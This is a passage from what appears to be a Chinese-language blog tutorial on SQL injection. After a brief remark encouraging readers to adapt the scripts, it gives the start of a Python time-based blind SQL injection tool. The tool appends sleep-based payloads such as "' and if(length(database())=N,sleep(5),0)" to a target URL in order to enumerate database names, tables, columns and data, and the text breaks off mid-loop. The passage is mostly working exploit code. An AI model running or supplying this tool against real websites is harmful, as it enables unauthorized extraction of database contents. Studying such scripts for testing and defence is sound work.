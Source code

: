 ```python
	StartSqli(options.targetURL)
```
![](https://img-blog.csdnimg.cn/20201225202636129.png)
这个脚本建议多理解，多加变形，来满足各种要求(还是sqlmap舒服)
基于时间型SQL盲注检测：
```python
#!/usr/bin/python3
# -*- coding: utf-8 -*-

import requests
import optparse
import time

# 存放数据库名变量
DBName = ""
# 存放数据库表变量
DBTables = []
# 存放数据库字段变量
DBColumns = []
# 存放数据字典变量,键为字段名，值为字段数据列表
DBData = {}

# 设置重连次数以及将连接改为短连接
# 防止因为HTTP连接数过多导致的 Max retries exceeded with url
requests.adapters.DEFAULT_RETRIES = 5
conn = requests.session()
conn.keep_alive = False


# 盲注主函数
def StartSqli(url):
	GetDBName(url)
	print("[+]当前数据库名:{0}".format(DBName))
	GetDBTables(url,DBName)
	print("[+]数据库{0}的表如下:".format(DBName))
	for item in range(len(DBTables)):
		print("(" + str(item + 1) + ")" + DBTables[item])
	tableIndex = int(input("[*]请输入要查看表的序号:")) - 1
	GetDBColumns(url,DBName,DBTables[tableIndex])
	while True:
		print("[+]数据表{0}的字段如下:".format(DBTables[tableIndex]))
		for item in range(len(DBColumns)):
			print("(" + str(item + 1) + ")" + DBColumns[item])
		columnIndex = int(input("[*]请输入要查看字段的序号(输入0退出):"))-1
		if(columnIndex == -1):
			break
		else:
			GetDBData(url, DBTables[tableIndex], DBColumns[columnIndex])


# 获取数据库名函数
def GetDBName(url):
	# 引用全局变量DBName,用来存放网页当前使用的数据库名
	global DBName
	print("[-]开始获取数据库名长度")
	# 保存数据库名长度变量
	DBNameLen = 0
	# 用于检查数据库名长度的payload
	payload = "' and if(length(database())={0},sleep(5),0) %23"
	# 把URL和payload进行拼接得到最终的请求URL
	targetUrl = url + payload
	# 用for循环来遍历请求，得到数据库名长度
	for DBNameLen in range(1, 99):
```